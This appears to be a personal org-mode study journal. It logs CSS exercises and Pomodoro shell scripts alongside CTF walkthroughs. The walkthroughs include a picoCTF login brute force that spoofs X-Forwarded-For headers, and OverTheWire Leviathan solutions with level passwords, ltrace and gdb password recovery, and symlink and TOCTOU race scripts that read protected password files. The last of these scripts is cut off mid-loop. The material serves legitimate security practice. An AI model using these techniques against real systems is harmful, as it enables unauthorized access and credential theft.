  0     0    0     0    0     0      0      0 --:--:-- --:--:-- --:--:--     0*   Trying 3.23.68.152:57780...
,* Connected to amiable-citadel.picoctf.net (3.23.68.152) port 57780 (#0)
  0     0    0     0    0     0      0      0 --:--:-- --:--:-- --:--:--     0> POST /login HTTP/1.1
> Host: amiable-citadel.picoctf.net:57780
> X-Forwarded-For: 1.2.3.12
> User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:143.0) Gecko/20100101 Firefox/143.0
> Accept: */*
> Accept-Language: en-US,en;q=0.5
> Accept-Encoding: gzip, deflate
> Referer: http://amiable-citadel.picoctf.net:57381/
> Content-Type: application/json
> Origin: http://amiable-citadel.picoctf.net:57381
> Connection: keep-alive
> Priority: u=0
> Content-Length: 56
> 
} [56 bytes data]
< HTTP/1.1 200 OK
< X-Powered-By: Express
< Content-Type: application/json; charset=utf-8
< Content-Length: 17
< ETag: W/"11-UIVUdQWNarX1D9mk06okyEMbpS8"
< Date: Mon, 20 Oct 2025 23:52:25 GMT
< Connection: keep-alive
< Keep-Alive: timeout=5
< 
{ [17 bytes data]
100    73  100    17  100    56     21     69 --:--:-- --:--:-- --:--:--    90
,* Connection #0 to host amiable-citadel.picoctf.net left intact
{"success":false}Note: Unnecessary use of -X or --request, POST is already inferred.
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
  0     0    0     0    0     0      0      0 --:--:-- --:--:-- --:--:--     0*   Trying 3.23.68.152:57780...
,* Connected to amiable-citadel.picoctf.net (3.23.68.152) port 57780 (#0)
> POST /login HTTP/1.1
> Host: amiable-citadel.picoctf.net:57780
> X-Forwarded-For: 1.2.3.13
> User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:143.0) Gecko/20100101 Firefox/143.0
> Accept: */*
> Accept-Language: en-US,en;q=0.5
> Accept-Encoding: gzip, deflate
> Referer: http://amiable-citadel.picoctf.net:57381/
> Content-Type: application/json
> Origin: http://amiable-citadel.picoctf.net:57381
> Connection: keep-alive
> Priority: u=0
> Content-Length: 56
> 
} [56 bytes data]
< HTTP/1.1 200 OK
< X-Powered-By: Express
< Content-Type: application/json; charset=utf-8
< Content-Length: 17
< ETag: W/"11-UIVUdQWNarX1D9mk06okyEMbpS8"
< Date: Mon, 20 Oct 2025 23:52:26 GMT
< Connection: keep-alive
< Keep-Alive: timeout=5
< 
{ [17 bytes data]
100    73  100    17  100    56     21     69 --:--:-- --:--:-- --:--:--    90100    73  100    17  100    56     21     69 --:--:-- --:--:-- --:--:--    90
,* Connection #0 to host amiable-citadel.picoctf.net left intact
{"success":false}Note: Unnecessary use of -X or --request, POST is already inferred.
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
  0     0    0     0    0     0      0      0 --:--:-- --:--:-- --:--:--     0*   Trying 3.23.68.152:57780...
,* Connected to amiable-citadel.picoctf.net (3.23.68.152) port 57780 (#0)
> POST /login HTTP/1.1
> Host: amiable-citadel.picoctf.net:57780
> X-Forwarded-For: 1.2.3.14
> User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:143.0) Gecko/20100101 Firefox/143.0
> Accept: */*
> Accept-Language: en-US,en;q=0.5
> Accept-Encoding: gzip, deflate
> Referer: http://amiable-citadel.picoctf.net:57381/
> Content-Type: application/json
> Origin: http://amiable-citadel.picoctf.net:57381
> Connection: keep-alive
> Priority: u=0
> Content-Length: 56
> 
} [56 bytes data]
< HTTP/1.1 200 OK
< X-Powered-By: Express
< Content-Type: application/json; charset=utf-8
< Content-Length: 17
< ETag: W/"11-UIVUdQWNarX1D9mk06okyEMbpS8"
< Date: Mon, 20 Oct 2025 23:52:27 GMT
< Connection: keep-alive
< Keep-Alive: timeout=5
< 
{ [17 bytes data]
100    73  100    17  100    56     28     93 --:--:-- --:--:-- --:--:--   121
,* Connection #0 to host amiable-citadel.picoctf.net left intact
{"success":false}Note: Unnecessary use of -X or --request, POST is already inferred.
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
  0     0    0     0    0     0      0      0 --:--:-- --:--:-- --:--:--     0  0     0    0     0    0     0      0      0 --:--:-- --:--:-- --:--:--     0*   Trying 3.23.68.152:57780...
,* Connected to amiable-citadel.picoctf.net (3.23.68.152) port 57780 (#0)
> POST /login HTTP/1.1
> Host: amiable-citadel.picoctf.net:57780
> X-Forwarded-For: 1.2.3.15
> User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:143.0) Gecko/20100101 Firefox/143.0
> Accept: */*
> Accept-Language: en-US,en;q=0.5
> Accept-Encoding: gzip, deflate
> Referer: http://amiable-citadel.picoctf.net:57381/
> Content-Type: application/json
> Origin: http://amiable-citadel.picoctf.net:57381
> Connection: keep-alive
> Priority: u=0
> Content-Length: 56
> 
} [56 bytes data]
< HTTP/1.1 200 OK
< X-Powered-By: Express
< Content-Type: application/json; charset=utf-8
< Content-Length: 17
< ETag: W/"11-UIVUdQWNarX1D9mk06okyEMbpS8"
< Date: Mon, 20 Oct 2025 23:52:27 GMT
< Connection: keep-alive
< Keep-Alive: timeout=5
< 
{ [17 bytes data]
100    73  100    17  100    56     21     70 --:--:-- --:--:-- --:--:--    92
,* Connection #0 to host amiable-citadel.picoctf.net left intact
{"success":false}Note: Unnecessary use of -X or --request, POST is already inferred.
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
  0     0    0     0    0     0      0      0 --:--:-- --:--:-- --:--:--     0*   Trying 3.23.68.152:57780...
,* Connected to amiable-citadel.picoctf.net (3.23.68.152) port 57780 (#0)
  0     0    0     0    0     0      0      0 --:--:-- --:--:-- --:--:--     0> POST /login HTTP/1.1
> Host: amiable-citadel.picoctf.net:57780
> X-Forwarded-For: 1.2.3.16
> User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:143.0) Gecko/20100101 Firefox/143.0
> Accept: */*
> Accept-Language: en-US,en;q=0.5
> Accept-Encoding: gzip, deflate
> Referer: http://amiable-citadel.picoctf.net:57381/
> Content-Type: application/json
> Origin: http://amiable-citadel.picoctf.net:57381
> Connection: keep-alive
> Priority: u=0
> Content-Length: 56
> 
} [56 bytes data]
< HTTP/1.1 200 OK
< X-Powered-By: Express
< Content-Type: application/json; charset=utf-8
< Content-Length: 17
< ETag: W/"11-UIVUdQWNarX1D9mk06okyEMbpS8"
< Date: Mon, 20 Oct 2025 23:52:28 GMT
< Connection: keep-alive
< Keep-Alive: timeout=5
< 
{ [17 bytes data]
100    73  100    17  100    56     21     69 --:--:-- --:--:-- --:--:--    90
,* Connection #0 to host amiable-citadel.picoctf.net left intact
{"success":false}Note: Unnecessary use of -X or --request, POST is already inferred.
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
  0     0    0     0    0     0      0      0 --:--:-- --:--:-- --:--:--     0*   Trying 3.23.68.152:57780...
,* Connected to amiable-citadel.picoctf.net (3.23.68.152) port 57780 (#0)
> POST /login HTTP/1.1
> Host: amiable-citadel.picoctf.net:57780
> X-Forwarded-For: 1.2.3.17
> User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:143.0) Gecko/20100101 Firefox/143.0
> Accept: */*
> Accept-Language: en-US,en;q=0.5
> Accept-Encoding: gzip, deflate
> Referer: http://amiable-citadel.picoctf.net:57381/
> Content-Type: application/json
> Origin: http://amiable-citadel.picoctf.net:57381
> Connection: keep-alive
> Priority: u=0
> Content-Length: 56
> 
} [56 bytes data]
< HTTP/1.1 200 OK
< X-Powered-By: Express
< Content-Type: application/json; charset=utf-8
< Content-Length: 17
< ETag: W/"11-UIVUdQWNarX1D9mk06okyEMbpS8"
< Date: Mon, 20 Oct 2025 23:52:29 GMT
< Connection: keep-alive
< Keep-Alive: timeout=5
< 
{ [17 bytes data]
100    73  100    17  100    56     28     92 --:--:-- --:--:-- --:--:--   120100    73  100    17  100    56     28     92 --:--:-- --:--:-- --:--:--   120
,* Connection #0 to host amiable-citadel.picoctf.net left intact
{"success":false}Note: Unnecessary use of -X or --request, POST is already inferred.
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
  0     0    0     0    0     0      0      0 --:--:-- --:--:-- --:--:--     0*   Trying 3.23.68.152:57780...
,* Connected to amiable-citadel.picoctf.net (3.23.68.152) port 57780 (#0)
> POST /login HTTP/1.1
> Host: amiable-citadel.picoctf.net:57780
> X-Forwarded-For: 1.2.3.18
> User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:143.0) Gecko/20100101 Firefox/143.0
> Accept: */*
> Accept-Language: en-US,en;q=0.5
> Accept-Encoding: gzip, deflate
> Referer: http://amiable-citadel.picoctf.net:57381/
> Content-Type: application/json
> Origin: http://amiable-citadel.picoctf.net:57381
> Connection: keep-alive
> Priority: u=0
> Content-Length: 56
> 
} [56 bytes data]
< HTTP/1.1 200 OK
< X-Powered-By: Express
< Content-Type: application/json; charset=utf-8
< Content-Length: 17
< ETag: W/"11-UIVUdQWNarX1D9mk06okyEMbpS8"
< Date: Mon, 20 Oct 2025 23:52:30 GMT
< Connection: keep-alive
< Keep-Alive: timeout=5
< 
{ [17 bytes data]
100    73  100    17  100    56     28     93 --:--:-- --:--:-- --:--:--   121
,* Connection #0 to host amiable-citadel.picoctf.net left intact
{"success":false}Note: Unnecessary use of -X or --request, POST is already inferred.
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
  0     0    0     0    0     0      0      0 --:--:-- --:--:-- --:--:--     0*   Trying 3.23.68.152:57780...
,* Connected to amiable-citadel.picoctf.net (3.23.68.152) port 57780 (#0)
> POST /login HTTP/1.1
> Host: amiable-citadel.picoctf.net:57780
> X-Forwarded-For: 1.2.3.19
> User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:143.0) Gecko/20100101 Firefox/143.0
> Accept: */*
> Accept-Language: en-US,en;q=0.5
> Accept-Encoding: gzip, deflate
> Referer: http://amiable-citadel.picoctf.net:57381/
> Content-Type: application/json
> Origin: http://amiable-citadel.picoctf.net:57381
> Connection: keep-alive
> Priority: u=0
> Content-Length: 56
> 
} [56 bytes data]
100    56    0     0  100    56      0    238 --:--:-- --:--:-- --:--:--   238< HTTP/1.1 200 OK
< X-Powered-By: Express
< Content-Type: application/json; charset=utf-8
< Content-Length: 17
< ETag: W/"11-UIVUdQWNarX1D9mk06okyEMbpS8"
< Date: Mon, 20 Oct 2025 23:52:30 GMT
< Connection: keep-alive
< Keep-Alive: timeout=5
< 
{ [17 bytes data]
100    73  100    17  100    56     28     92 --:--:-- --:--:-- --:--:--   120
,* Connection #0 to host amiable-citadel.picoctf.net left intact
{"success":false}
#+end_example

picoCTF{xff_byp4ss_brut3_1cc3b76e}

** Seinfeld Checkmark

[[file:images/2025-10-20_seinfeld.jpeg]]

* [2025-10-19 Sun]

Worked on more challenges today.
Made it a point of creating /tools/ in Emacs to make it easier.
Weakest link is emotional regulation: I get anxious too easy, too fast, and this really clouds my thinking, and makes it more difficult to work on ergonomy and posture.

** feat: add Seinfeld Checkmark 

[[file:images/2025-10-19_seinfeld.jpeg]]

* [2025-10-18 Sat]

Took a step back, and worked on fundamentals, and also cleared my mind.
It paid off: could solve yesterday's "humbling" challenge and some more today.

** Seinfeld Checkmark

[[file:images/2025-10-18_seinfeld.jpeg]]

* [2025-10-17 Fri]

Tough day today.

Took a beating on two CTFs; one expected, and the other humbling...

** Seinfeld Checkmark

[[file:images/2025-10-17_seinfeld.jpeg]]

* [2025-10-16 Thu]

** CSS: we got assignment!

- [X] [[https://github.com/rafaelbeirigo/odin-css-exercises/tree/main/foundations/block-and-inline/01-margin-and-padding-1][01-margin-and-padding-1]]
- [X] [[https://github.com/rafaelbeirigo/odin-css-exercises/tree/main/foundations/block-and-inline/02-margin-and-padding-2][02-margin-and-padding-2]]

** Pomodoro

I may have spent more time than I should have "sharpening this axe"...
Anyway, need a command-line Pomodoro?

*** ~pomodoro~

#+begin_src shell :noweb no
#!/bin/bash

ME=$(basename $0)

if [ $# -eq 1 ] && ( [ $1 == "-h" ] || [ $1 == "--help" ] )
then
    echo "Usage: $ME [POPUP_NOTIFICATION [OSD_COUNTDOWN [TITLE]]]

POPUP_NOTIFICATION (boolean; default: \"false\")
    Controls if a popup will be shown when time is up.
OSD_COUNTDOWN (boolean; default: \"true\")
    Controls if the countdown will be show on screen (using OSD).
TITLE (string; default: \"Pomodoro\")
     is the headliner of the popup notification.

Boolean values should be \"true\" or \"false\"."
    exit 0
fi

[ $# -ge 1 ] && POPUP_NOTIFICATION=$1 || POPUP_NOTIFICATION=false
[ $# -ge 2 ] && OSD_COUNTDOWN=$2 || OSD_COUNTDOWN=true
[ $# -ge 3 ] && TITLE=$3 || TITLE="Pomodoro"

BIG_INTERVAL="25m"
SHORT_INTERVAL="5m"

TIMER_ARGS="$TITLE $POPUP_NOTIFICATION $OSD_COUNTDOWN"
while [ true ]
do
    timer $BIG_INTERVAL $TIMER_ARGS
    timer $SHORT_INTERVAL $TIMER_ARGS
done
#+end_src

*** ~timer~

#+begin_src shell :noweb no
#!/bin/bash

ME=$(basename $0)

USAGE="Usage: $ME TIME_AMOUNT [TITLE [POPUP_NOTIFICATION [OSD_COUNTDOWN]]]

TITLE (string; default: \"Pomodoro\")
     is the headliner of the popup notification.
POPUP_NOTIFICATION (boolean; default: \"false\")
    Controls if a popup will be shown when time is up.
OSD_COUNTDOWN (boolean; default: \"true\")
    Controls if the countdown will be show on screen (using OSD).

Boolean values should be \"true\" or \"false\"."

if [ $1 == "-h" ] || [ $1 == "--help" ]
then
    echo "$USAGE"
    exit 0
fi

die () {
    echo >&2 "$@"
    exit 1
}

[ $# -ge 1 ] && TIME=$1 || die $USAGE
[ $# -ge 2 ] && TITLE=$2 || TITLE="Timer"
[ $# -ge 3 ] && POPUP_NOTIFICATION=$3
[ $# -ge 4 ] && OSD_COUNTDOWN=$4

OSD_CAT_FLAGS='--pos=top --align=right --delay=60 --shadow=3 --outline=0 --outlinecolour=black --color=cyan --font=-misc-fixed-medium-r-normal--75-*-*-*-*-*-*'

# Determine the unit for the time (minutes or seconds, default to minutes)
UNIT=${TIME: -1}
if [[ $UNIT = @(m|s) ]];
then
    DIGITS=${TIME::-1}
else
    UNIT=m
    DIGITS=$TIME
fi

for TIC in $(seq ${DIGITS} -1 1);
do
    # Display remaining time on the terminal
    echo Remaining: $TIC$UNIT

    # Display remaining time via OSD
    if $OSD_COUNTDOWN
    then
        echo "${TIC}${UNIT}" | osd_cat $OSD_CAT_FLAGS &
    fi

    sleep 1$UNIT
done

# Pop-up notification at the end of the timer
if $POPUP_NOTIFICATION
then
    notify-send --urgency=critical \
                --expire-time=0 \
                "$TITLE" \
                "Time ($TIME) is up."
fi

# Give an audible cue that the timer is done
ding
#+end_src

*** ~ding~

#+begin_src shell :noweb no
#!/bin/bash

mocp --play /usr/share/sounds/freedesktop/stereo/complete.oga
#+end_src

** Seinfeld Checkmark

[[file:images/2025-10-16_seinfeld.jpeg]]

* [2025-10-15 Wed]

** CSS

Studied the Box Model.
This time with exercises: much better.

** CTF

Back to overthewire.
picoCTF helped.
It fealt really easier today.
picoCTF /teaches/ things like how to use gdb.
I could think of many different approaches today because of that.

Finished Leviathan \o/
Loved the challenges!

*** overthewire.org

**** 3

f0n8h2iWLP

- setuid binary in home folder
- ~ltrace~ showed a call to ~strcmp~ with the payload
- input payload gives setuid shell

#+begin_example
leviathan3@leviathan:~$ ltrace ./level3 
fgets(Enter the password> snlprintf
"snlprintf\n", 256, 0xf7fae5c0)                                                                               = 0xffffd24c
strcmp("snlprintf\n", "snlprintf\n")                                                                                = 0
puts("[You've got shell]!"[You've got shell]!

leviathan3@leviathan:~$ ./level3
Enter the password> snlprintf
[You've got shell]!
$ id
uid=12004(leviathan4) gid=12003(leviathan3) groups=12003(leviathan3)
$ cat /etc/leviathan_pass/leviathan4
#+end_example

**** 4

WG1egElCvO

#+begin_example
leviathan4@leviathan:~$ ll
total 24
drwxr-xr-x   3 root root       4096 Oct 14 09:27 ./
drwxr-xr-x 150 root root       4096 Oct 14 09:29 ../
-rw-r--r--   1 root root        220 Mar 31  2024 .bash_logout
-rw-r--r--   1 root root       3851 Oct 14 09:19 .bashrc
-rw-r--r--   1 root root        807 Mar 31  2024 .profile
dr-xr-x---   2 root leviathan4 4096 Oct 14 09:27 .trash/
leviathan4@leviathan:~$ find .trash/
.trash/
.trash/bin
leviathan4@leviathan:~$ cd .trash/
leviathan4@leviathan:~/.trash$ ll
total 24
dr-xr-x--- 2 root       leviathan4  4096 Oct 14 09:27 ./
drwxr-xr-x 3 root       root        4096 Oct 14 09:27 ../
-r-sr-x--- 1 leviathan5 leviathan4 14940 Oct 14 09:27 bin*
leviathan4@leviathan:~/.trash$ file bin
bin: setuid ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), dynamically linked, interpreter /lib/ld-linux.so.2, BuildID[sha1]=52e379ac2e364243895250cb84038a8bf5d3e4e5, for GNU/Linux 3.2.0, not stripped
leviathan4@leviathan:~/.trash$ ./bin
00110000 01100100 01111001 01111000 01010100 00110111 01000110 00110100 01010001 01000100 00001010 
#+end_example

There's a binary that prints a binary sequence.
Converted to ASCII, it give the next password.

**** 5

0dyxT7F4QD

There is a setuid binary in the home folder.

#+begin_example
leviathan5@leviathan:~$ ./leviathan5 
Cannot find /tmp/file.log
#+end_example

It wants a file.

#+begin_example
leviathan5@leviathan:~$ echo "abcdefg" > /tmp/file.log
leviathan5@leviathan:~$ ./leviathan5 
abcdefg
#+end_example

It spills out that file's contents.

#+begin_example
leviathan5@leviathan:~$ ln -s /etc/leviathan_pass/leviathan6 /tmp/file.log
leviathan5@leviathan:~$ ./leviathan5 
szo7HDB88w
#+end_example

**** 6

szo7HDB88w

***** DONE ~strings~ in the binary?  No

***** Can I use gdb to see the pin code?

#+begin_src shell :noweb no
leviathan6@leviathan:~$ gdb --args ./leviathan6 1234
#+end_src

After ~disassemble main~, I could see there's a comparison followed by ~jne~.

#+begin_example
=> 0x0804921a <+84>:    cmp    %eax,-0xc(%ebp)
   0x0804921d <+87>:    jne    0x804924a <main+132>
#+end_example

Maybe it's here they're testing the input for equality.

Examining the registers

#+begin_example
(gdb) info registers
eax            0x4d2               1234
ebp            0xffffd368          0xffffd368
#+end_example

- ~eax~ has the input
- ~ebp~ has a memory address
  - the comparison offsets that address by ~0xc~


Examining the contents of that piece of memory:

#+begin_example
(gdb) x $ebp-0xc
0xffffd35c:     0x00001bd3
#+end_example

~0x1bd3~ == 7123

#+begin_example
leviathan6@leviathan:~$ ./leviathan6 7123
$ id
uid=12007(leviathan7) gid=12006(leviathan6) groups=12006(leviathan6)
$ cat /etc/leviathan_pass/leviathan7
qEs5Io5yM8
#+end_example

**** 7
qEs5Io5yM8

#+begin_example
leviathan7@leviathan:~$ ll
total 24
drwxr-xr-x   2 root       root       4096 Oct 14 09:27 ./
drwxr-xr-x 150 root       root       4096 Oct 14 09:29 ../
-rw-r--r--   1 root       root        220 Mar 31  2024 .bash_logout
-rw-r--r--   1 root       root       3851 Oct 14 09:19 .bashrc
-r--r-----   1 leviathan7 leviathan7  178 Oct 14 09:27 CONGRATULATIONS
-rw-r--r--   1 root       root        807 Mar 31  2024 .profile
#+end_example

** Seinfeld Checkmark

[[file:images/2025-10-15_seinfeld.jpeg]]

* [2025-10-14 Tue]

The slope got steep at overthewire.org.
Went to picoCTF for some structured intro.
Today I read the Primer and worked on some playlists:
- The Beginner's Guide to the picoGym: 25/25
- Cryptography and picoGym Learning Intro 1/15
- Low Level Binary Intro 38/46
- Forensics in CTF's 6/17
- Python in CTF's 13/19
- Vault Door Series 1/8
- Sleuthkit Series 2/2
- PW Crack Series 5/5

** Seinfeld Checkmark

[[file:images/2025-10-14_seinfeld.jpeg]]

* [2025-10-13 Mon]

Some [[https://overthewire.org/][bit scrubbing]] (these last days) and today!

** Leviathan

*** Intro

#+begin_quote
Leviathan’s levels are called leviathan0, leviathan1, … etc. and can be accessed on

leviathan.labs.overthewire.org through SSH on port 2223.

To login to the first level use:

Username: leviathan0
Password: leviathan0

Data for the levels can be found in the homedirectories. You can look at /etc/leviathan_pass for the various level passwords.
#+end_quote

*** Functions

**** Automatically assemble SSH command from given user and password (C-. C-.)

#+begin_src elisp :results none :noweb no
(defun hack-ctf-overthewire-dot-org-leviathan-ssh-command
    (arg user password)
  "Read USER and PASSWORD then return complete ssh command.
When ARG in non-nil do not use comman `sshpass' to automatically
send PASSWORD to `ssh'.  Apparently the first connection must be
established the old way."
  (interactive
   (list
    current-prefix-arg
    (read-string "user: "
                 "leviathan" ;; challenge's prefix
                 hack-ctf-user-history)
    (read-string "password: " nil
                 hack-ctf-password-history)))
  (let* ((challenge-subdomain "leviathan")
         (challenge-port "2223")
         (url (concat challenge-subdomain ".labs.overthewire.org"))
         (ssh-command (concat
                       (unless arg (concat "sshpass -p " password " "))
                       "ssh " url
                       " -p " challenge-port
                       " -l " user)))
    (kill-new ssh-command)
    (message "hack-ctf: ssh command copied to clipboard")
    (sleep-for 2)
    (if (and arg (yes-or-no-p "copy password to clipboard now?"))
        (kill-new password))))
(keymap-local-set "C-. C-."
                  'hack-ctf-overthewire-dot-org-leviathan-ssh-command)
#+end_src

*** 0 (I /have/ the password for leviathan0 and /want/ the one for leviathan1)
leviathan0

#+begin_example
leviathan0@leviathan:~/.backup$ cat bookmarks.html
#+end_example

#+begin_example
<DT><A HREF="http://leviathan.labs.overthewire.org/passwordus.html | This will be fixed later, the password for leviathan1 is 3QJ3TgzHDq" ADD_DATE="1155384634" LAST_CHARSET="ISO-8859-1" ID="rdf:#$2wIU71">password to leviathan1</A>
#+end_example

*** 1

3QJ3TgzHDq

#+begin_example
leviathan1@leviathan:~$ ll
total 36
drwxr-xr-x   2 root       root        4096 Aug 15 13:17 ./
drwxr-xr-x 150 root       root        4096 Aug 15 13:18 ../
-rw-r--r--   1 root       root         220 Mar 31  2024 .bash_logout
-rw-r--r--   1 root       root        3851 Aug 15 13:09 .bashrc
-r-sr-x---   1 leviathan2 leviathan1 15084 Aug 15 13:17 check*
-rw-r--r--   1 root       root         807 Mar 31  2024 .profile
#+end_example

#+begin_example
leviathan1@leviathan:~$ ltrace ./check
__libc_start_main(0x80490ed, 1, 0xffffd464, 0 <unfinished ...>
printf("password: ")                                                                                                                                = 10
getchar(0, 0, 0x786573, 0x646f67password: sex
)                                                                                                                   = 115
getchar(0, 115, 0x786573, 0x646f67)                                                                                                                 = 101
getchar(0, 0x6573, 0x786573, 0x646f67)                                                                                                              = 120
strcmp("sex", "sex")                                                                                                                                = 0
geteuid()                                                                                                                                           = 12001
geteuid()                                                                                                                                           = 12001
setreuid(12001, 12001)                                                                                                                              = 0
system("/bin/sh"$
$ cat /etc/leviathan_pass/leviathan2
cat: /etc/leviathan_pass/leviathan2: Permission denied
$ whoami
leviathan1
$ id
uid=12001(leviathan1) gid=12001(leviathan1) groups=12001(leviathan1)
$ pwd
/home/leviathan1
$ ./check
password: sex
$ id
uid=12002(leviathan2) gid=12001(leviathan1) groups=12001(leviathan1)
$ cat /etc/leviathan_pass/leviathan2
NsN1HwFoyN
#+end_example

If I run it without ltrace, it does not drop privileges.

#+begin_example
leviathan1@leviathan:~$ ltrace ./check <------------------------------------------------------------------------------------------------------------- WITH LTRACE
__libc_start_main(0x80490ed, 1, 0xffffd464, 0 <unfinished ...>
printf("password: ")                                                                                                                                = 10
getchar(0, 0, 0x786573, 0x646f67password: sex
)                                                                                                                   = 115
getchar(0, 115, 0x786573, 0x646f67)                                                                                                                 = 101
getchar(0, 0x6573, 0x786573, 0x646f67)                                                                                                              = 120
strcmp("sex", "sex")                                                                                                                                = 0
geteuid()                                                                                                                                           = 12001
geteuid()                                                                                                                                           = 12001
setreuid(12001, 12001)                                                                                                                              = 0
system("/bin/sh"$ id
uid=12001(leviathan1) gid=12001(leviathan1) groups=12001(leviathan1) <------------------------------------------------------------------------------- DROPPED PRIVILEGES
$ ltrace ./check
__libc_start_main(0x80490ed, 1, 0xffffd474, 0 <unfinished ...>
printf("password: ")                                                                                                                                = 10
getchar(0, 0, 0x786573, 0x646f67password: sex
)                                                                                                                   = 115
getchar(0, 115, 0x786573, 0x646f67)                                                                                                                 = 101
getchar(0, 0x6573, 0x786573, 0x646f67)                                                                                                              = 120
strcmp("sex", "sex")                                                                                                                                = 0
geteuid()                                                                                                                                           = 12001
geteuid()                                                                                                                                           = 12001
setreuid(12001, 12001)                                                                                                                              = 0
system("/bin/sh"$ id
uid=12001(leviathan1) gid=12001(leviathan1) groups=12001(leviathan1)
$ ./check
password: sex
$ id
uid=12002(leviathan2) gid=12001(leviathan1) groups=12001(leviathan1)
$ 
$ 
 <no return ...>
--- SIGCHLD (Child exited) ---
<... system resumed> )                                                                                                                              = 0
+++ exited (status 0) +++
$ id
uid=12001(leviathan1) gid=12001(leviathan1) groups=12001(leviathan1)
$ 
 <no return ...>
--- SIGCHLD (Child exited) ---
<... system resumed> )                                                                                                                              = 0
+++ exited (status 0) +++
leviathan1@leviathan:~$ ./check
password: sex
$ id
uid=12002(leviathan2) gid=12001(leviathan1) groups=12001(leviathan1)
#+end_example

*** 2

NsN1HwFoyN

**** Poke

***** Successful execution

#+begin_example
leviathan2@leviathan:~$ ltrace ./printfile .profile 
__libc_start_main(0x80490ed, 2, 0xffffd454, 0 <unfinished ...>
access(".profile", 4)                                                                                                                               = 0
snprintf("/bin/cat .profile", 511, "/bin/cat %s", ".profile")                                                                                       = 17
geteuid()                                                                                                                                           = 12002
geteuid()                                                                                                                                           = 12002
setreuid(12002, 12002)                                                                                                                              = 0
system("/bin/cat .profile"# ~/.profile: executed by the command interpreter for login shells.
# This file is not read by bash(1), if ~/.bash_profile or ~/.bash_login
# exists.
# see /usr/share/doc/bash/examples/startup-files for examples.
# the files are located in the bash-doc package.

# the default umask is set in /etc/profile; for setting the umask
# for ssh logins, install and configure the libpam-umask package.
#umask 022

# if running bash
if [ -n "$BASH_VERSION" ]; then
    # include .bashrc if it exists
    if [ -f "$HOME/.bashrc" ]; then
        . "$HOME/.bashrc"
    fi
fi

# set PATH so it includes user's private bin if it exists
if [ -d "$HOME/bin" ] ; then
    PATH="$HOME/bin:$PATH"
fi

# set PATH so it includes user's private bin if it exists
if [ -d "$HOME/.local/bin" ] ; then
    PATH="$HOME/.local/bin:$PATH"
fi
 <no return ...>
--- SIGCHLD (Child exited) ---
<... system resumed> )                                                                                                                              = 0
+++ exited (status 0) +++
#+end_example

***** Order of tests and calls

Previous one:

#+begin_example
strcmp("sex", "sex")                                                                                                                                = 0
geteuid()                                                                                                                                           = 12001
geteuid()                                                                                                                                           = 12001
setreuid(12001, 12001)                                                                                                                              = 0
system("/bin/sh"$ id
#+end_example

This one:

#+begin_example
access(".profile", 4)                                                                                                                               = 0
snprintf("/bin/cat .profile", 511, "/bin/cat %s", ".profile")                                                                                       = 17
geteuid()                                                                                                                                           = 12002
geteuid()                                                                                                                                           = 12002
setreuid(12002, 12002)                                                                                                                              = 0
system("/bin/cat .profile"# ~/.profile: executed by the command interpreter for login shells.
#+end_example

**** DONE Does it print the password file without tracing?  No

#+begin_example
leviathan2@leviathan:~$ ./printfile /etc/leviathan_pass/leviathan3 
You cant have that file...
#+end_example

**** DONE Does it get ~cat~ from PATH?  No

#+begin_example
leviathan2@leviathan:~$ export PATH=""
leviathan2@leviathan:~$ ./printfile .profile 
# ~/.profile: executed by the command interpreter for login shells.
# This file is not read by bash(1), if ~/.bash_profile or ~/.bash_login
# exists.
# see /usr/share/doc/bash/examples/startup-files for examples.
# the files are located in the bash-doc package.

# the default umask is set in /etc/profile; for setting the umask
# for ssh logins, install and configure the libpam-umask package.
#umask 022

# if running bash
if [ -n "$BASH_VERSION" ]; then
    # include .bashrc if it exists
    if [ -f "$HOME/.bashrc" ]; then
        . "$HOME/.bashrc"
    fi
fi

# set PATH so it includes user's private bin if it exists
if [ -d "$HOME/bin" ] ; then
    PATH="$HOME/bin:$PATH"
fi

# set PATH so it includes user's private bin if it exists
if [ -d "$HOME/.local/bin" ] ; then
    PATH="$HOME/.local/bin:$PATH"
fi
#+end_example
**** DONE Printar link mutante.  SOLVED
#+begin_example
#!/bin/bash


LEV=/etc/leviathan_pass/leviathan
LEV2=${LEV}2
LEV3=${LEV}3
L=/tmp/chaves-L
PRINTFILE=/home/leviathan2/printfile

ln -sf $LEV2 $L
$PRINTFILE $L &
ln -sf $LEV3
#+end_example

#+begin_example
leviathan2@leviathan:~$ vi /tmp/chaves.sh

---

#!/bin/bash

ln -sf /etc/leviathan_pass/leviathan2 /tmp/chaves-L
/home/leviathan2/printfile /tmp/chaves-L &
ln -sf /etc/leviathan_pass/leviathan3 /tmp/chaves-L

---

leviathan2@leviathan:~$ /tmp/chaves.sh
leviathan2@leviathan:~$ f0n8h2iWLP
#+end_example
**** ChatGPT comments

[[https://chatgpt.com/share/68ed9138-3f28-8006-ac1e-835908865878][ChatGPT]]

***** More robust TOCTOU script

#+begin_example
#!/bin/bash
# deterministic TOCTOU flipper for CTF practice only

GOOD="/home/leviathan2/.profile"   # a file RUID can read (replace with real file)
SECRET="/etc/leviathan_pass/leviathan3" # the secret you want printed
LINK="/tmp/chaves-L"
BINARY="/home/leviathan2/printfile"     # the setuid binary that does: check ACCESS then exec cat LINK

# make sure the link starts pointing to the readable file
ln -sf "$GOOD" "$LINK"

# start the target program in the background and capture its PID
"$BINARY" "$LINK" &
TARGET_PID=$!

# while the target is still alive, keep flipping the symlink
while kill -0 "$TARGET_PID" 2>/dev/null; do
